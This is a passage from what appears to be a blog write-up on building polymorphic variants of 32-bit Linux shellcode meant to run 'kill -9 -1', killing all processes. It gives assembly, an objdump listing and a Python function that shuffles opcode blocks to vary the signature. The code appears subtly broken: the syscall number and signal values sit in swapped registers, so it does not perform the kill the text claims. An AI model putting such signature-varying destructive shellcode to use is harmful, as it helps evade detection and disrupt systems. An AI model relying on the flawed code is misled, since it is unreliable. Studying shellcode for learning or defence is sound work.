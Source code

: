 _start:
	xor ebx, ebx
	xor eax, eax
	xor ecx, ecx

	mov cl, 0x25
	mov al, 0x9

	dec ebx
	int 0x80

{%endhighlight%}

This shellcode, when compiled into binary, is only 13 bytes long that is inside
our engagement rules.

{% highlight sh%}
 % objdump -d kill_second_variant

kill_second_variant:     file format elf32-i386


Disassembly of section .text:

08048080 <_start>:
 8048080:	31 db                	xor    %ebx,%ebx
 8048082:	31 c0                	xor    %eax,%eax
 8048084:	31 c9                	xor    %ecx,%ecx
 8048086:	b1 25                	mov    $0x25,%cl
 8048088:	b0 09                	mov    $0x9,%al
 804808a:	4b                   	dec    %ebx
 804808b:	cd 80                	int    $0x80

{% endhighlight %}

Now with those two fixes values loaded into cl and al it's easy to derive other
variations. We can start from this to create some other polymorphic versions,
using some strategies like:

* swap system call parameter positions
* add some NOPs
* perform NOP equivalent operations
* use math to calculate values to fill EAX, EBX and ECX to reach the desired
  value with some more clock cycles

### Kill shake

Kill shellcode can be divided in three atomic patterns that can be swapped each other:

* XOR-ing EBX and decrementing it
* MOV AL to 0x9
* MOV CL to 0x25

Given this, the following python snippet realize the swapping strategy for our kill -9 -1 shellcode:

{%highlight python%}
def kill_shuffle():
    blk=["\\x31\\xdb\\x4b", "\\x31\\xc9\\xb1\\x25", "\\x31\\xc0\\xb0\\x09"];
    newblk=blk[:];
    shuffle(newblk);

    return "".join(newblk)+"\\xcd\\x80";
{%endhighlight%}

